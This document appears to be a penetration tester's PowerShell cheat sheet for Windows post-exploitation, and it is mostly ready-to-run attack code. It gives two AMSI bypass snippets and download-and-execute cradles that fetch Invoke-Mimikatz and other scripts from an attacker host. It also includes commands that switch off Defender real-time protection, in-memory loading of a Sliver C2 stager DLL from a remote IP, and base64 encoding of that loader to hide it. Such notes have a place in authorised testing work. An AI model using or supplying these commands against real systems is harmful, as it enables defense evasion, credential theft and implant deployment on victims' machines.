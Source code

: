 
- Bypass AMSI with powershell (*Note* probably Win10 only)
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

- Win10 Bypass AMSI through amsiInitFailed (does not work on Win11 as far as I can tell)
	- Error on Win11 `MethodInvocationException: Exception calling "SetValue" with "2" argument(s): "Cannot set initonly static field 's_amsiInitFailed' after type 'System.Management.Automation.AmsiUtils' is initialized."`
	- TODO: research this more
```powershell
$a=[Ref].Assembly.GetTypes()
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}
$d=$c.GetFields('NonPublic,Static')
Foreach($e in $d) {if ($e.Name -like "*ms*nit*ai*") {$f=$e}}
$g=$f.SetValue($null,$true)
```


### Bypassing AMSI to execute malicious scripts 

- ASMI Bypass Powershell code with inspiration from (https://medium.com/@sam.rothlisberger/amsi-bypass-memory-patch-technique-in-2024-f5560022752b)
	- use ASBB.ps1 as a base
	- If downloading scripts that will be flagged by AMSI, rename them
	- add download code for these scripts at the end of ASBB.ps1
	- example for `Invoke-Mimikatz.ps1` which is renamed to `IM.ps1`
```powershell
(New-Object System.Net.WebClient).DownloadString(‘http://attacker.ip/IM.ps1') | IEX
```
- Download example
```powershell
iex -Debug -Verbose -ErrorVariable $e -InformationAction Ignore -WarningAction Inquire “iex(New-Object System.Net.WebClient).DownloadString(‘http://attacker.ip/ASBB.ps1')”
```

- Tamper Protection status:
	- If the output is `False`, Tamper Protection is enabled.
	-  If the output is `True`, Tamper Protection is disabled.
```powershell
(Get-MpPreference).DisableTamperProtection
```

- Disable Defender if Tamper Protection is off
```powershell
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true
```

- Download and execute Powershell script

```powershell
 iex (New-Object Net.WebClient).DownloadString('http://ipaddress/script.ps1')
```

```powershell
Invoke-Expression -Command (Invoke-WebRequest -Uri 'http://ipaddress/script.ps1').Content
```

- View Applocker Policy
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

### Users

- Who is logged in?
```powershell
Get-WmiObject -Class Win32_ComputerSystem | Select-Object -ExpandProperty UserName
```


### Execute in memory

- Download and execute a dll
```powershell
$assembly = [System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData('http://192.168.45.197:8000/SliverStagerDll.dll')); $class = $assembly.GetType('GoodShip.GoodShip'); $method = $class.GetMethod('LoadStager'); $method.Invoke($null, $null)
```


## Powershell Base64 Conversion

```powershell
$script = @"
\$webClient = New-Object System.Net.WebClient
\$dllBytes = \$webClient.DownloadData('http://192.168.45.197:8000/SliverStagerDll.dll')
\$assembly = [System.Reflection.Assembly]::Load(\$dllBytes)
\$goodShipType = \$assembly.GetType('GoodShip.GoodShip')
\$loadStagerMethod = \$goodShipType.GetMethod('LoadStager')
\$loadStagerMethod.Invoke(\$null, \$null)
"@
$bytes = [System.Text.Encoding]::Unicode.GetBytes($script)
$encodedScript = [Convert]::ToBase64String($bytes)
$encodedScript
```